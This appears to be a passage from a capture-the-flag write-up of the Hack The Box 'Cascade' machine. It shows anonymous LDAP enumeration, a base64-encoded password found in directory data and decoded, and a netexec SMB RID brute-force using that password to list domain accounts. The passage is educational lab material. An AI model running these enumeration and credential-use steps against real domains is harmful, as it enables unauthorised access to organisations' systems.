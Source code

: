 ```
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=cascade,DC=local
dsServiceName: CN=NTDS Settings,CN=CASC-DC1,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local
defaultNamingContext: DC=cascade,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=cascade,DC=local
configurationNamingContext: CN=Configuration,DC=cascade,DC=local
rootDomainNamingContext: DC=cascade,DC=local
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec ldap 10.10.10.182 -d 'cascade.local' -u '' -p '' --password-not-required 
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\: 
LDAP        10.10.10.182    389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        10.10.10.182    389    CASC-DC1         User: CascGuest Status: disabled
```

Seems like the user `a.turnbull` is enabled and doesn't need a password. Further enumeration with `jxplorer`, I discover a password for the user r.thympson.
![](Cascade_Web0.png)Its base64 encoded
```
# echo 'clk0bjVldmE=' | base64 -d       
rY4n5eva
```
###### `RID Brute with the r.thompson Creds`
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --rid-brute
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
<!------------------------------------------------ SNIPPED ------------------------------------------------------------------>
SMB         10.10.10.182    445    CASC-DC1         1106: CASCADE\arksvc (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1107: CASCADE\s.smith (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1109: CASCADE\r.thompson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1111: CASCADE\util (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1113: CASCADE\IT (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1114: CASCADE\Production (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1115: CASCADE\HR (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1116: CASCADE\j.wakefield (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1119: CASCADE\AD Recycle Bin (SidTypeAlias)
```